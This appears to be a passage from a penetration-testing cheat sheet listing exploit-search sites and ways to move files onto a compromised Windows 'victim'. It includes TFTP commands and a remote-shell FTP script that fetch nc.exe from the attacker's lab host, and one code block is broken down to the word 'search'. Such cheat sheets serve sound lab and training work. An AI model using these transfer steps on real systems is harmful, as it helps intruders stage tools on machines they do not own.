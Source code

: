 ## Finding Exploits

Websites you can find exploits

1. https://www.securityfocus
2. https://www.exploit-db.com

Search exploit in Kali Linux
```
search
```
[Back to Table of Contents](#Table-of-Contents)

## File Transfers

### TFTP
```
# Run in Kali Linux box
atftpd --daemon --port 69 /root/tftp

# Run in Windows box victim
tftp -i 192.168.56.103 GET nc.exe
```
[Back to Table of Contents](#Table-of-Contents)

### FTP

```
# Install pure-ftpd in Kali
apt-get install pure-ftpd
```
Run bash script setup-ftp.sh
```
#!/bin/bash

groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```
Copy and paste in remote shell 
```
echo open 192.168.56.103 21 > ftp.txt
echo offsec >> ftp.txt
echo lab >> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```
```
echo open 192.168.56.103 21 > ftp.txt
echo [ftpuser] >> ftp.txt
echo [password] >> ftp.txt
echo bin >> ftp.txt
echo GET [file] >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```
